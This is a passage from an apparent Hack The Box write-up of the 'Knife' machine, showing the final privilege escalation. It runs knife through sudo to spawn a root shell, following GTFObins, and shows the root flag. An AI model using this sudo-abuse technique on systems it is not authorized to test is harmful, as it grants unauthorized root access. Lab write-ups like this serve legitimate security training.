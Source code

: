 When you see you can run commands as root, which is what `sudo -l` tells you, the first stop to check is GTFObins, and when we search it for knife we find this link which tells us how to elevate: [https://gtfobins.github.io/gtfobins/knife/#sudo](https://gtfobins.github.io/gtfobins/knife/#sudo)

```
$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
id
bash: cannot set terminal process group (963): Inappropriate ioctl for device
bash: no job control in this shell
root@knife:/home/james# id
uid=0(root) gid=0(root) groups=0(root)
root@knife:/home/james# cd /root
cd /root
root@knife:~# ls
ls
delete.sh
root.txt
snap
root@knife:~# cat root.txt
cat root.txt
1695506cb19da77cd678a444ca59fe8f
root@knife:~# 
```

And with that, knife has been rooted. It is a relatively easy machine, but if you miss that PHP version like I did, you will have some issues and it may take a bit longer. If you're ever stuck for a long while and think you have enumerated all you can, it doesn't hurt to check the HTB forums. Any spoilers on the box are removed, and people are good about giving hints that push you in the right direction without just telling you what to look for.
